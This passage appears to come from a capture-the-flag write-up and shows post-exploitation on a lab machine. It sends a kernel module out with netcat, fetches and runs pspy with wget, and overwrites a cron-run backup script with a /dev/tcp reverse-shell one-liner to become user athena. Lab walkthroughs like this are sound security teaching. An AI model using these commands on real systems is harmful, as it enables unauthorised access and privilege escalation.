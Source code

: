   ```sh
  # we can do a file transfer and check this in Ghidra
  
  # on attacker machine
  nc -nvlp 5555 > venom.ko

  # in reverse-shell
  nc 10.10.103.84 5555 -w 3 < /mnt/.../secret/venom.ko

  # simultaneously, we can also check for any cronjobs or running processes

  cat /etc/crontab
  # nothing found

  # we can check any processes running using pspy

  # in attacker machine, host the pspy64 binary
  python3 -m http.server 8000

  # in reverse-shell
  cd /tmp

  wget http://10.10.103.84:8000/pspy64

  chmod +x pspy64

  ./pspy64
  ```

* Using ```pspy```, we can see the following commands are executed periodically:

  * ```/bin/bash /usr/share/backup/backup.sh```
  * ```mkdir -p /home/athena/backup```
  * ```zip -r /home/athena/backup/notes_backup.zip /home/athena/backup```
  * ```rm /home/athena/backup/*.sh```
  * ```cp -r /home/athena/notes/msg_from_director.txt /home/athena/notes/mynote.txt /home/athena/backup```

* We can see if we are allowed to edit this script:

  ```sh
  ls -la /usr/share/backup/backup.sh
  # www-data has write permissions
  # we can edit this file and add a reverse-shell

  # on attacker, setup listener
  nc -nvlp 4445

  # in reverse shell
  vim /usr/share/backup/backup.sh

  # remove all lines and only keep the reverse-shell one-liner
  sh -i >& /dev/tcp/10.10.103.84/4445 0>&1

  # as it is in read-only mode
  # we need to do ':wq!' to save and quit

  cat /usr/share/backup/backup.sh
  # confirm the changes

  # in a while, we get a reverse shell on listener
  id
  # athena

  # we can upgrade this shell like previously done

  ```